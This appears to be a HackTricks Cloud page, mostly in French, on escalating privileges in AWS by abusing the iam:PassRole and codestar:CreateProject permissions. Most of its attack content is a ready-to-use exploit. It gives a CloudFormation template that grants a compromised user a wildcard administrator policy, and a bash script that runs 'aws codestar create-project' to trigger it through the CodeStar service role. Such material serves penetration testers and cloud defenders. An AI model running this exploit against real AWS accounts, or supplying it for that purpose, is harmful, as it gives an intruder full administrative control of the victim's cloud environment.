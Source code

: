 # iam:PassRole, codestar:CreateProject

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Avec ces autorisations, vous pouvez **abuser d'un rôle IAM codestar** pour effectuer des **actions arbitraires** via un **modèle cloudformation**.

Pour exploiter cela, vous devez créer un **bucket S3 qui est accessible** depuis le compte attaqué. Téléchargez un fichier appelé `toolchain.json`. Ce fichier doit contenir l'**exploit du modèle cloudformation**. Le suivant peut être utilisé pour définir une politique gérée à un utilisateur sous votre contrôle et **lui donner des permissions d'administrateur** :

{% code title="toolchain.json" %}
```json
{
"Resources": {
"supercodestar": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"ManagedPolicyName": "CodeStar_supercodestar",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
]
},
"Users": [
"<compromised username>"
]
}
}
}
}
```
{% endcode %}

Aussi **téléchargez** ce fichier `empty zip` dans le **bucket** :

{% file src="../../../../.gitbook/assets/empty.zip" %}

N'oubliez pas que le **bucket avec les deux fichiers doit être accessible par le compte de la victime**.

Avec les deux éléments téléchargés, vous pouvez maintenant procéder à l'**exploitation** en créant un projet **codestar** :
```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"empty.zip\"
}
},
\"destination\": {
\"codeCommit\": {
\"name\": \"$PROJECT_NAME\"
}
}
}
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"toolchain.json\"
}
},
\"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME \
--source-code file://$SOURCE_CODE_PATH \
--toolchain file://$TOOLCHAIN_PATH
```
Cet exploit est basé sur les **exploits Pacu de ces privilèges** : [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997) Vous y trouverez une variation pour créer une politique gérée par un administrateur pour un rôle au lieu d'un utilisateur.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
